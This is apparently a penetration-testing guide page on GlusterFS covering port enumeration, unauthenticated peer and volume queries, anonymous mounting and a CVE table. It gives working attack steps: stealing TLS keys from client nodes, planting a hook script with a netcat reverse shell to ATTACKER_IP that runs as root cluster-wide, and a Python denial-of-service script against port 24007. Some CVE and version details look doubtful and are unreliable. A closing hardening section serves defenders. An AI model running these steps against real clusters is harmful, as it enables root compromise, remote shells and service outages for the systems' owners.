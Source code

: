 # 24007-24008-24009-49152 - Pentesting GlusterFS


## Basic Information

**GlusterFS** is a **distributed file system** that combines storage from multiple servers into one **unified namespace**. The management daemon (`glusterd`) listens by default on **24007/TCP** and instructs data-plane bricks that start at **49152/TCP** (one port per brick, incrementing). Versions prior to 9.x used **24008–24009/TCP** for brick transport, so you will still encounter those ports in legacy clusters.

```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
```
> Tip: 24007 answers RPC calls even when the storage-only nodes do **not** export any volume; therefore the service is a reliable pivot target inside large infrastructures.

## Enumeration

Install the client utilities on your attacking box:

```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
```
1. **Peer discovery & health**

```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
```
2. **Volume reconnaissance**

```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
```
3. **Mount without privileges**

```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
```
If mounting fails, check `/var/log/glusterfs/<vol_name>-<uid>.log` on the client side.  Common issues are:

* TLS enforcement (`option transport.socket.ssl on`)
* Address based access control (`option auth.allow <cidr>`)

### Certificate troubleshooting

Steal the following files from any authorised client node and place them in `/etc/ssl/` (or the directory shown in the error log):

```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
```
---

## Known Vulnerabilities (2022-2025)

| CVE | Affected versions | Impact | Notes |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Use-after-free in `dht_setxattr_mds_cbk` reachable through the network | Remote **DoS** and probable RCE. Fixed in 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Out-of-bounds read in FUSE notify handler | Remote crash via crafted FS operations; public PoC available. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Incorrect permission validation when mounting `gluster_shared_storage` | Lets any unauthenticated client mount the admin volume – leads to **priv-esc** explained below. |

> Always check `gluster --version` **on every node**; heterogeneous clusters are common after partial upgrades.

### Exploiting `gluster_shared_storage` (Privilege Escalation)

Even in recent versions many administrators leave the special `gluster_shared_storage` volume world-readable because it simplifies geo-replication.  The volume contains cronjob templates that run with **root** on every node.

```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
```
If `hooks/1/` is not present, look for `/ss_bricks/` – the exact path may vary with the major version.

### Denial-of-Service PoC (CVE-2023-26253)

```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
    s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
    s.send(p.get_buffer())
```
```Running the script crashes `glusterfsd` < 11.0.

---

## Hardening & Detection

* **Upgrade** – current LTS is 11.1 (July 2025).  All CVEs above are fixed.
* Enable **TLS** for every brick:

  ```bash
  gluster volume set <vol> transport.socket.ssl on
  gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
  ```
* Restrict clients with CIDR lists:

  ```bash
  gluster volume set <vol> auth.allow 10.0.0.0/24
  ```
* Expose management port 24007 only on a **private VLAN** or through SSH tunnels.
* Watch logs: `tail -f /var/log/glusterfs/glusterd.log` and configure **audit-log** feature (`volume set <vol> features.audit-log on`).

---


## References

* [[https://docs.gluster.org/en/latest/release-notes/#security|GlusterFS security advisories]]  
* [[https://github.com/tinynetwork/gluster-notify-crash|CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash]]

